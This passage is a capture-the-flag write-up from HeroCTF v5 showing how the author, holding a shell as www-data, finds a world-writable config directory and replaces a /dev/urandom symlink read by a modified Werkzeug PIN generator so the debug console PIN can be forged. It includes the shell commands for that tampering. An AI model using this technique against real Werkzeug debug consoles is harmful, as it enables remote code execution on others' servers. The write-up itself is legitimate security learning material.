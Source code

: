 The `config` directory is world-writable/readable/executable.

```shell
(remote) www-data@flask:/var/www$ ls -lah config/
total 8.0K
drwxrwxrwx 1 root root 4.0K May 13 03:17 .
drwxr-xr-x 1 root root 4.0K May 13 03:17 ..
lrwxrwxrwx 1 root root   12 May 13 03:17 urandom -> /dev/urandom
```

Inside that directory, it has a symbolic link (symlink) file pointing to `/dev/urandom`.

What can we do with that...

## Exploitation

**Then, I opened a ticket just to confirm the Werkzeug Debug Console is the right track or not:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514202551.png)

So, 100% sure it's about Werkzeug Debug Console PIN code bypass...

**Hmm... Let's read through the generating PIN code source code:**
```shell
(remote) www-data@flask:/var/www/app$ 
(local) pwncat$ download /usr/local/lib/python3.10/dist-packages/werkzeug/debug/__init__.py
```

**Then, around reading through it...**
```python
private_bits = [
        str(uuid.getnode()),
        get_machine_id(),
        open("/var/www/config/urandom", "rb").read(16) # ADDING EXTRA SECURITY TO PREVENT PIN FORGING
    ]
```

**`/var/www/config/urandom`????**

That makes a lot more sense why the symlink `urandom` file exists!

The above modifiied `private_bits` not only getting the MAC address of the machine and machine ID, **but also 16 bytes from `/var/www/config/urandom`!**

**Now, since the directory `/var/www/config/` is world-writable, we can just modify it!**
```shell
(remote) www-data@flask:/var/www/app$ cd /var/www/config/
(remote) www-data@flask:/var/www/config$ mv urandom urandom.bak
(remote) www-data@flask:/var/www/config$ vi urandom
(remote) www-data@flask:/var/www/config$ cat urandom
AAAAAAAAAAAAAAAA
```
